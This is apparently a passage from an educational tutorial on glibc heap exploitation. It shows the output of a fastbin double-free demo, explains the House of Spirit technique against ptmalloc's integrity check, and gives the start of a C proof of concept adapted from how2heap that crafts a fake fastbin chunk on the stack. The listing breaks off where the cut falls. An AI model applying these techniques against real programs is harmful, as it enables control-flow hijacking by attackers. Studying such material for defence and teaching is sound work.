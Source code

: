 Outputs:

    # ./fastbin_dup
    1st malloc(8): 0x9214008
    2nd malloc(8): 0x9214018
    3rd malloc(8): 0x9214028
    Freeing the first one...
    If we free 0x9214008 again, things will crash because 0x9214008 is at the top of the free list.
    So, instead, we'll free 0x9214018.
    Now, we can free 0x9214008 again, since it's not the head of the free list.
    Now the free list has [ 0x9214008, 0x9214018, 0x9214008 ]. If we malloc 3 times, we'll get 0x9214008 twice!
    1st malloc(8): 0x9214008
    2nd malloc(8): 0x9214018
    3rd malloc(8): 0x9214008

As expected, the chunk `0x9214008`, after being freed twice, was subsequently re-allocated twice.




## The House of Spirit

A clever heap exploit, that builds up a *write to anywhere* primitive, by crafting a fake heap chunk and stores it back into fastbins via a `free()`. Later, the specially crafted fake chunk is is allocated back to the vulnerable program through a subsequent `malloc()` call. Control flow can be hijacked if the code that uses the second `malloc()'ed` fake chunk, attempts to mutate the user data within the fake heap chunk which is laid out on the stack (@phrack).

To add a complication, `ptmalloc` performs an integrity check, which must be satisified:

    if (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
    || __builtin_expect (chunksize (chunk_at_offset (p, size)) 
                                    >= av->system_mem, 0))

In order to bypass this check, the fake chunk's `size`, and the `size` of its the next chunk must be set. Below is a slightly modified version of @how2heap, which is effective against the latest version of glibc (2.29) as of October 2019:


```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "Setup pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (size %lu) holds two chunks\n",
		sizeof(fake_chunks));

	fprintf(stderr, "1st at %p and 2nd at %p\n",
		&fake_chunks[1], &fake_chunks[9]);
	
	fake_chunks[1] = 0x40; // this is the size

	// fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

	fprintf(stderr, "Set pointer to address of user data in fake first chunk, %p\n",
		&fake_chunks[1]);
```